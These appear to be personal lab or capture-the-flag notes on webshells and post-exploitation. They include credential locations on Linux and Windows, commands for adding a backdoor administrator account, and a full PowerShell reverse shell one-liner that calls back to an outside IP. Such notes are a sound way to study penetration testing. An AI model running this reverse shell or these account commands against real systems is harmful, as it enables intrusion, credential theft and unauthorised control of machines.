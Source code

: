 
"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.


Next Steps

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this.

In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.




On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
. These can be MD5 hashes or in plaintext, depending on the version.


Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:
`net user <username> <password> /add`

`net localgroup administrators <username> /add`


We have to try different webshell and finally this worked

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.167.78',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![[Pasted image 20240722211401.png]]

![[Pasted image 20240722211423.png]]

